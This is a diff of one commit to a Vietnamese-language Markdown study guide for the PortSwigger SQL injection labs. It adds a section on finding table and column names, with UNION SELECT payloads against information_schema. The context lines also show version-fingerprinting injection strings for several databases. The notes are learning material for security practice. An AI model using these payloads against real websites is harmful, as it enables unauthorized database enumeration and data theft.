

Before and after one commit to SuchABlackCat/PortSwigger-Learning-Path, a Markdown page: SQL Injection/SQL Injection.md, the part around the change. Rendered like a GitHub page; blank space fills up the shorter version.

Commit message:
Update Xác định tên bảng và cột

```diff
--- a/SQL Injection/SQL Injection.md
+++ b/SQL Injection/SQL Injection.md
@@ -80,3 +80,11 @@ WHERE category = 'Gifts' or 1=1;--' AND released = 1;</pre>
 <p><strong>Microsoft, MySQL</strong>: <code>' union select @@version</code></p>
 <p><strong>Oracle</strong>: <code>' union select v$version</code></p>
 <p><strong>PostgreSQL</strong>: <code>' union select version()</code></p>
+
+<h3>2.3. Xác định tên bảng và cột</h3>
+<p>Lưu ý mỗi database có 1 syntax nên payload sẽ thay đổi 1 xíu dựa trên loại database</p>
+<p><strong>Non-Oracle:</strong></p>
+<p><strong>Payload tên bảng</strong>:</p>
+<pre>' union select null, table_name from information_schema.tables--</pre>
+<p><strong>Payload tên cột</strong>:</p>
+<pre>' union select null, column_name from information_schema.columns where table_name='users'--</pre>
```
